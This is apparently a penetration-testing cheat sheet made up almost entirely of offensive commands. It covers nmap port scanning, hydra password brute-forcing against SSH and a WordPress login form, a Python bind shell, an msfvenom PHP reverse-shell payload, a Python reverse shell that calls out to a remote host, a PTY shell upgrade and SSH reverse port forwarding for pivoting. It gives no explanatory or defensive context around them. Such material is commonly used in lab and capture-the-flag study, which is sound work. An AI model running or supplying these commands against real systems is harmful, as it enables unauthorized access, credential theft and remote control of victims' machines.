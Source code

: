
## Port Scanning
```bash
sudo nmap 10.10.10.10 -sS -sU --min-rate 1000 -oA demo-openports-initial
```

## Password Guessing
```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt 10.10.10.10 -t4 ssh

hydra -l root -P /usr/share/wordlists/rockyou.txt 10.10.10.10 http-post-form "/blog/wp-login.php?:log=^USER^&pwd=^PASS^:Error"
```

## Bind Shells
```python
python -c 'import socket,os,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(("0.0.0.0",443));s.listen(5);c,a=s.accept();os.dup2(c.fileno(),0);os.dup2(c.fileno(),1);os.dup2(c.fileno(),2);p=subprocess.call(["/bin/sh","-i"])'
```

## Reverse Shells
```bash
msfvenom -p php/reverse_php LHOST=10.10.10.10 LPORT=443 -f raw -o shell.php

export RHOST="10.10.10.10"; export RPORT=443; python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

## Upgrade to a PTY Shell
```bash
echo "import pty; pty.spawn('/bin/bash')" > /tmp/shell.py
python /tmp/shell.py
```

## Pivoting
```bash
ssh -R 8080:localhost:8080 victor@home.edu
```
